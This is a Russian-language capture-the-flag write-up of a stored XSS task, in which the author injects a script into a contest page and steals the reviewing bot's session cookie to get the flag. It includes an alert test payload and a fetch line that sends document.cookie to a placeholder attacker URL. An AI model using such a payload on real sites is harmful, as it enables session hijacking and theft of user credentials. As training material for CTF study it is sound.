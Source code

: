 # Объявляется конкурс!

Нам предлагают создать свой сайт, поучаствовать в конкурсе и выиграть некий секретный приз. Также в описании задания сказано, что можно "оживлять" свои странички. Это может натолкнуть на мысль об использовании JavaScript в коде своей страницы.

![Главная страница](writeup/site.png)

Помимо стандартных HTML тегов мы можем попробовать добавить на страницу скрипт. Например, для вызова уведомления:

```html
<script>alert(123)</script>
```
И это сработало, уведомление выводится на страничку при переходе по ссылке.

![Вывод алерта](writeup/alert.png) 

Это значит, что сайт подвержен XSS (Cross-Site Scripting) уязвимости, позволяющей выполнять произвольный код на стороне клиента.

После публикации нашей странички можно заметить кнопку "Отправить", которая передает страницу на рассмотрение.

![Кнопка отправить](writeup/submit.png) 

Погуглив, что можно получить, используя XSS уязвимость, узнаем, что с её помощью возможно украсть cookie пользователя, который исполнит скрипт на своей стороне. В нашем случае кто-то рассматривает странички, поэтому попытаемся угнать его сессию.

Для этого потребуется свой сервер, на который мы сможем принять запрос от пользователя с его куками (можно использовать сервисы по типу Webhook или Alwaysdata).

Пейлоад для отправки кук мы можем найти в интернете или написать сами, зная такой JavaScript метод, как fetch.

Пример скрипта:

```html
<script>fetch('YOUR_URL' + document.cookie)</script>
```

Когда пользователь заходит на вашу страницу, он исполняет этот JS код и по сути сам отправляет свои куки вам на сервер, не зная об этом.

Попробуем создать страничку с таким скриптом и отправить на проверку, и сразу же получаем куку с флагом.
![Получение флага](writeup/flag.png) 

Также в течении соревнования участники получили следующий хинт: "После отправки странички каждому участнику полагаются бесплатные печеньки! Оставьте свой адрес, и мы их доставим.", что намекает на действия, связанные с куками.
